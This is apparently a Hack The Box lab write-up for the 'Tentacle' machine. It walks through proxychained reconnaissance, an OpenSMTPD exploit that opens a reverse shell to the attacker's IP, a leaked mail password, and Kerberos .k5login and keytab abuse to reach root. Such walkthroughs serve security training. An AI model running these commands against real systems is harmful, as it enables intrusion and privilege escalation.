





<p align="center"></img></p>
<p align="center">Creator: <a href="https://app.hackthebox.eu/polarbearer/159204">polarbearer</a></p>

# Personal thoughts
A hard box which has less solvers even than an insane box! Made me learn a lot of stuff like dns records, proxychaining, kerberos and so on... As usual, I tried to explain the steps as simple as I can. Hope you'll find it useful; if so, consider [suporting]() a student to get `OSCP` exam and +respecting my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">

</img></a>

Now, let me get right into it.

---

# Reconnaissance
The cliche... :
```bash
nmap -sS -sV -sC -p- 10.10.10.224
```
```bash
PORT     STATE  SERVICE      VERSION
22/tcp   open   ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 8d:dd:18:10:e5:7b:b0:da:a3:fa:14:37:a7:52:7a:9c (RSA)
|   256 f6:a9:2e:57:f8:18:b6:f4:ee:03:41:27:1e:1f:93:99 (ECDSA)
|_  256 04:74:dd:68:79:f4:22:78:d8:ce:dd:8b:3e:8c:76:3b (ED25519)
53/tcp   open   domain       ISC BIND 9.11.20 (RedHat Enterprise Linux 8)
| dns-nsid:
|_  bind.version: 9.11.20-RedHat-9.11.20-5.el8
88/tcp   open   kerberos-sec MIT Kerberos (server time: 2021-06-17 12:49:01Z)
3128/tcp open   http-proxy   Squid http proxy 4.11
|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
9090/tcp closed zeus-admin
Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8
```

Here we have three ports except `22/ssh`, let's start with the kerberos server at the port `88/kerberos-sec`.

## 88/kerberos-sec

Actually, we don't have much choice here, let's take a look at the binary web content:
```bash
curl http://10.10.10.224:88 --http0.9 --output - | strings
```
```
`~^0\
20210618150926Z
REALCORP.HTB
krbtgt
REALCORP.HTB
```
We got two things here:
- `REALCORP.HTB` which is a domain. (Also a clue about __default Kerberos 5 realm__)
- `krbtgt` which is the local default account which acts as a service account for the Key Distribution Center (KDC) service.

Add the domain to `/etc/hosts` and let's continue with the port `3128/http-proxy`.

## 3128/http-proxy


Here we got another two things:
- `j.nakazawa@realcorp.htb` a username and another domain.
- `srv01.realcorp.htb` a new __subdomain__.

See the subdomain? Maybe we need to enumerate the `53/dns` to find out what's going on.

## 53/dns
As I mentioned my previous writeups, I love using `gobuster`. You can go with `dnsenum`, `wfuzz` or your own tool...
- Let's go with the domain we found in the __mail__ address.

```bash
┌──(root💀kali)-[~/hackthebox/tentacle]
└─> gobuster -q dns -d realcorp.htb -r 10.10.10.224:53 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -i
Found: ns.realcorp.htb [10.197.243.77]
Found: proxy.realcorp.htb [10.197.243.77]
Found: wpad.realcorp.htb [10.197.243.31]
Found: srv01.realcorp.htb [10.10.10.224]
```
Oh, here we found new subdomains and two new ip addresses. `proxy.realcorp.htb` is a [`CNAME`](https://en.wikipedia.org/wiki/CNAME_record) record to `ns.realcorp.htb` and `ns` stands for nameserver.<br>
As you can guess, we can't access these ips directly, which means we need to use proxychaining to access them for this case.

### `proxychains` configuration
We are going to use a tool called `proxychains`, so make sure you installed it on your system.<br>
Do comment any other proxy entries and add the following lines at the end of your `/etc/proxychains.conf` file.
```
http	10.10.10.224 3128
http	127.0.0.1 3128
http	10.197.243.77 3128
```
We're going with `strict_chain` but you can go with `dynamic_chain` too.
- Here's a [video](https://www.youtube.com/watch?v=NN9fQwiomAU) to understand `proxychains` mechanism.

Now, we're ready to look at the ip: `10.197.243.31`<br>
Let's scan it:
```bash
┌──(root💀kali)-[~/hackthebox/tentacle]
└─> proxychains -q nmap -sT -Pn 10.197.243.31 --top-ports 1000
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-18 19:34 +03
Nmap scan report for wpad.realcorp.htb (10.197.243.31)
Host is up (0.24s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http

Nmap done: 1 IP address (1 host up) scanned in 241.18 seconds
```

### WPAD (Web Proxy Auto-Discovery Protocol)
>[WPAD](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol) is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL. Default name for the configuration file is: `wpad.dat`

Here we see an http server, let's look for the file.

- First add `10.197.243.31 wpad.realcorp.htb` to your `/etc/hosts`.

```bash
┌──(root💀kali)-[~/hackthebox/tentacle]
└─> proxychains -q curl http://wpad.realcorp.htb/wpad.dat
function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))
        return "DIRECT";

    return "PROXY proxy.realcorp.htb:3128";
}
```

This time we catch a tartar, that's a totally new `subnet`...<br>
We can't use host discovery in `nmap`, that makes things too long. But I used my mind and made things easier; while scanning the whole ip range, I encountered one ` ... OK` and moved from that ip address.



# Foothold: CVE 2020-22-77
Let's scan this ip address's running service versions:

```bash
proxychains nmap -sT -sV -Pn 10.241.251.113 --top-ports 100
```
```c
PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
Service Info: Host: smtp.realcorp.htb
```
After googling a bit about `OpenSMTPD`, I found [this](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt) article. Now time to exploit it, I tried many exploits from the internet but I'm going to recommend you to use my PoC exploit from [this](https://github.com/f4T1H21/CVE-2020-22-77) link. You can see, it definitely makes sense!

```bash
┌──(root💀f4T1H)-[~/hackthebox/tentacle]
└─> proxychains -q python3 exploit.py 10.241.251.113 25 j.nakazawa@realcorp.htb 10.10.14.166 2121
[+] Opening connection to 10.241.251.113 on port 25: Done
[+] Target port is running OpenSMTPD!
[+] Sending HELO: Done
[+] Target is vulnerable!
[+] Checking the mail address: Valid
[+] Sending the payload: Done
[*] Closed connection to 10.241.251.113 port 25
---------------------------------------------------------
[+] Trying to bind to 10.10.14.166 on port 2121: Done
[+] Waiting for connections on 10.10.14.166:2121: Got connection from 10.10.10.224 on port 36780
[*] Switching to interactive mode
bash: cannot set terminal process group (545): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~> $ id
id
uid=0(root) gid=0(root) groups=0(root)
root@smtp:~> $
```
Here we finally got a shell as `root`, but in the `smtp` server.
After a bit of enumeratig, I found `msmtp` client configuration file in `/home/j.nakazawa/.msmtprc`.

```bash
root@smtp:/home/j.nakazawa> $ cat .msmtprc
cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint    C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
root@smtp:/home/j.nakazawa> $
```
And here we got some credentials: `j.nakazawa`:`sJB}RM>6Z~64_`<br>
But weirdly ssh was not working for direct login with these credentials!<br><br>
Thinking about generally a little bit, gives us the big clue: As you can remember we have a `kerberos-sec` server on the main target, which means we can use tickets to authenticate in something if it configured properly!


Okay, let me take one step back:

- What is `kerberos`?
>A computer-network authentication protocol that works on the basis  of tickets to allow nodes communicating over a non-secure network to  prove their identity to one another in a secure manner.

## Creating a `kerberos` ticket
### Step #1
First install the package by typing:
```bash
apt-get install krb5-user
```

__Attention__: Now we need to configure the kerberos by editing `/etc/krb5.conf`, for that you need to add following lines to their proper sections in the file.
```bash
[libdefaults]
        default_realm = REALCORP.HTB

[realms]
        REALCORP.HTB = {
                kdc = 10.10.10.224
        }

[domain_realm]
        .realcorp.htb = REALCORP.HTB
```
### Step #2
Create a ticket for the user `j.nakazawa`:
```bash
┌──(root💀f4T1H)-[~/hackthebox/tentacle]
└─> kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:

```
Enter the password, and we're ready to go. But first, check the ticket we created:
```bash
┌──(root💀f4T1H)-[~/hackthebox/tentacle]
└─> klist           
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
06/19/2021 07:12:33  06/20/2021 07:00:21  krbtgt/REALCORP.HTB@REALCORP.HTB
```

__Atention__: Make sure you only have the following domain for the `10.10.10.224` ip address in your `/etc/hosts` file.
```c
10.10.10.224    srv01.realcorp.htb
```
## Step #3
Connect directly via ssh as the user `j.nakazawa`:
```bash
┌──(root💀f4T1H)-[~/hackthebox/tentacle]
└─> ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Sat Jun 19 05:26:12 2021 from 10.10.14.166
[j.nakazawa@srv01 ~]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[j.nakazawa@srv01 ~]$
```
Here we finally got the user ...

# Privilege escalation:
## Escalating `admin`: Cronjob abuse
While enumerating the box, I came out with the following `cronjob`:
```bash
[j.nakazawa@srv01 ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
[j.nakazawa@srv01 ~]$
```

__/usr/local/bin/log_backup.sh__
```bash
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```
Basically this script copies all the content of `/var/log/squid/` to `/home/admin`.

```bash
[j.nakazawa@srv01 tmp]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[j.nakazawa@srv01 tmp]$ ls /var/log -lah | grep squid
drwx-wx---.  3 admin  squid    53 Jun 19 05:49 squid
[j.nakazawa@srv01 tmp]$
```

Here you can see we are in the group of `squid`, we can write and execute the content of `/var/log/squid`. So if we put something into `/var/log/squid` it'll be copied to `/home/admin`. It may take a long or a short time depending on the size of the directory.<br><br>
The initial idea was copying our public ssh key to `/home/admin/.ssh/authorized_keys`, but after further testing I came out to the conclusion that it is not allowed/enabled.

Hmm let's think about the clue, you remember what was it? Yeah, you're right it is literally: `Kerberos`<br>
After some googling, I got [this](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-user/Granting-Access-to-Your-Account.html) article.

>If you need to give someone access to log into your account, you can do so through `Kerberos`, without telling the person your password. Simply create a file called `.k5login` in your home directory. This file should contain the `Kerberos principal` of each person to whom you wish to give access. Each principal must be on a separate line. Here is a sample `.k5login` file:
```
jennifer@ATHENA.MIT.EDU
avid@EXAMPLE.COM
```

Let's try that:
```bash
[j.nakazawa@srv01 ~]$
mkdir tmp
echo j.nakazawa@REALCORP.HTB | tee tmp/.k5login
cp tmp/.k5login /var/log/squid

you@yourlocalmachine:~$
ssh admin@10.10.10.224
```


Yupp, that works!

## Escalating `root`: Misconfigured keytab
Actually we noticed this file earlier but as we hadn't had permissions on that, we couldn't use it.<br>
The file is: `/etc/krb5.keytab` Fine but,

- What is a [`keytab`](https://kb.iu.edu/d/aumh) file?
>A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password). You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password. __Anyone with read permission on a keytab file can use all the keys in the file.__

```bash
[admin@srv01 ~]$ ls -l /etc/krb5.keytab
-rw-r-----. 1 root admin 1403 Dec 19 06:10 /etc/krb5.keytab
```
You see dear `r` letter at the 5th place which stands for __our read permission__'s existence?

Let's see the principals inside `/etc/krb5.keytab`
```bash
[admin@srv01 ~]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
[admin@srv01 ~]$
```

There are `kadmin/admin@REALCORP.HTB` principals, nice!

Now the only thing to do is using [`kadmin`](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html) (Kerberos V5 administration system) to add a `root@REALCORP.HTB` principal which we can use with [`ksu`](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html) (Kerberized version of the su program) to authenticate as `root` afterwards...

```bash
[admin@srv01 ~]$
kadmin -r REALCORP.HTB -p kadmin/admin@REALCORP.HTB -k -t /etc/krb5.keytab
add_principal root@REALCORP.HTB
<Enter a password 2 times>
exit
ksu root
<Enter the same password>
```



And we finally R00Ted the machine....


---

# Closing
If you liked my writeup, consider [suporting]() a student to get `OSCP` exam and +respecting my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">

</img></a>

# Resources
|`CNAME record`|https://en.wikipedia.org/wiki/CNAME_record|
|:-|:-|
|`Proxychains`|__https://www.youtube.com/watch?v=NN9fQwiomAU__|
|`WPAD protocol`|__https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol__|
|`CVE 2020-7247`|__https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt__|
|`CVE 2020-7247 PoC exploit`|__https://github.com/f4T1H21/CVE-2020-22-77__|
|`.k5login file`|__https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-user/Granting-Access-to-Your-Account.html__|
|`keytab file`|__https://kb.iu.edu/d/aumh__|
|`Kerberos administration program`|__https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html__|
|`Kerberized su`|__https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html__|

___Written by f4T1H___
